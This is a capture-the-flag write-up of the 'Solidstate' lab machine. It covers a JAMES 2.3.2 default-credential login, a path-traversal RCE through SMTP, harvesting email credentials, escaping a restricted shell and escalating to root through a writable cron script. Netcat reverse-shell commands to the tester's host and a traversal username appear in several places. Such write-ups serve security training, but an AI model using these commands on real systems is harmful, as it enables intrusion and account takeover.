- Machine Name: Solidstate
- Difficulty: Medium
- OS type: Linux

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.94SVN scan initiated Sat Apr  5 03:39:39 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN nmap.out 10.10.10.51
Nmap scan report for 10.10.10.51
Host is up (0.35s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.14 [10.10.14.14])
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings: 
|   GenericLines: 
|     **JAMES Remote Administration Tool 2.3.2**
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.94SVN%I=7%D=4/5%Time=67F0DEC8%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.2\n
SF:Please\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nPass
SF:word:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  5 03:46:23 2025 -- 1 IP address (1 host up) scanned in 404.07 seconds

```

## Enumeration

### Port 80/HTTP

Port 80 is open on target machine, let’s visit the website in browser


looks like the company’s website, so solid state security is possibly a cyber security company provides services such as Pentesting, red team exercises etc.

let’s use gobuster to find hidden files and directories to check if we can find anything useful



viewing the README.txt, LICENSE.txt we found that it is normal HTML site template, didn’t useful anything here



Nothing from directories as well.

### Port 4555/rsip?

this is unknown port, also nmap discovered that JAMES SMTP server is running on port 25,119 and 4555, now on port 4555 we found that it is running **`JAMES Remote Administration Tool 2.3.2`** which looks interesting to me!, let’s give it quick google search to see if there are any known CVEs are available for this service, we found that it is vulnerable to https://www.exploit-db.com/exploits/35513

now let’s connect to JAMES Administration tool via telnet

```bash
telnet 10.10.10.51 4555
```

it requires the username and password, the exploit also reveals that the default credentials for the James Remote Administrator Tool is **root:root** let’s give it a try!



Bingo!, we logged in!

now as per the exploit we need to first add the exploitable user to the system, run below command to add user to system

```bash
adduser ../../../../../../../../etc/bash_completion.d password
```



nice, now our user has been created, let’s move to step 2, login to SMTP via telnet

```bash
telnet 10.10.10.51 25
```

it’s time to say hello to SMTP.



then run following commands 

```bash
MAIL FROM: <'hacker@solidstate>
RCPT TO: ../../../../../../../../etc/bash_completion.d
DATA
From: hacker@solidstate
'
echo hello | nc attacker 3333
```

but we didn’t receive any connection on our netcat litener, further reading exploit we found that it requires some user’s to login to get the exploit executed, we got same thing while running exploit

 

```bash
python2 35513.py 10.10.10.51
```



Hmm, looks like it’s not the intended way to get into this machine, moving forward let’s login agian to Administration tool to see if we can find any useful information such as reading passwords, listing users, reset passowords

run `HELP` command for list of commands



ohh!! i can see something here, let’s run `listusers` first



> ***Note: you’ll not find hacker user in your results, i’ve created this user for some enumeration purposes using adduser command***
> 

let’s reset all user’s password using `setpassword <user> <password>` 



now what!, remember we noticed that pop3 is running on port 110, let’s login to all user’s one by one to check if we can get any information from there

```bash
#connect to pop3 via telnet
telnet 10.10.10.51 110
```

for login run following commands:

```bash
USER mailadmin
PASS password #password we set using Administration tool
LIST #to list available emails, if found any run below command
RETR 1 #retrive emial 1 (change it to 2,3 and so on..)
```

we checked all inboxes we founded 1 email in James user’s inbox



some password related talk, great now let’s grab password from mindy’s inbox



HaHaHa 😈 Evil smile, let’s login to SSH using mindy’s creds\

```bash
ssh mindy@10.10.10.51
```



login using ssh and we found that our previously created mails are now opened and we got connection on our kali machine, so the RCE was successful



as we read in email we have a limited shell, let’s check which shell assigned to mindy


/bin/rbash, hmm, after searching on google we found that it is restricted shell spending few mins on google and i found this article about how to bypass restricted shell ->https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/

there are many methods described in this article but we’ll use the SSH method as we have ssh access

we can specify the login shell in ssh using `-t` option

```bash
ssh mindy@10.10.10.51 -t bash
```



let’s use the another method which is the intended way for this machine as we’ve found RCE vulnerability in JAMES’s server and we now have correct credentials so let’s get RCE as proper bash shell

### Use Exploit - Automate the process

https://www.exploit-db.com/exploits/35513 - use this exploit and edit the payload variable to add the reverse shell command 



```bash
payload='/bin/nc -e /bin/bash 10.10.14.14 4443'
```

run the exploit


now wait for 1-2 min, start reverse shell listener on kali using `rlwrap -r nc -nvlp 4443` and login to ssh as mindy



manual method already mentioned above

upgrade the shell to get tty

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
```

## PrivEsc

→ let’s start our enumeration to get shiny #

let’s start from sudo-l permissions



we don’t have sudo permissions

anything interesting in user’s home directory?



we didn’t find any SUID, SGID that we can use for the exploitation

let’s check running processes by pspy32 tool, start python websever on kali using `python3 -m http.server 80` and then use wget to download pspy32

grant execute permissions using `chmod +x pspy32` 

run pspy32 and wait for 1-2 minutes to check if any cronjobs running



great we found that the /opt/tmp.py is running as root user, let’s check it’s permissions



Woow! we can write to this file, let’s add the command to execute `/bin/nc -e /bin/bash 10.10.14.14 4444` 



start nc listener on port 4444 and wait for the script to execute as root

say Hello to root!



